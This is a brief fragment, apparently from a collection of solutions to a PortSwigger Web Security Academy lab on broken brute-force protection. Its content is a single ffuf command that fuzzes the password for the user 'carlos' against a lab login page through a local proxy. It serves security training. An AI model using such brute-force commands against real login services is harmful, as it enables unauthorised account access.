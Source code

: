 https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request
```sh
ffuf -u https://0aca0033047dd433b947dbc0003c00d1.web-security-academy.net/login -d "username=carlos&password=FUZZ" -X POST -w password-list.txt -v -replay-proxy http://127.0.0.1:8080
```
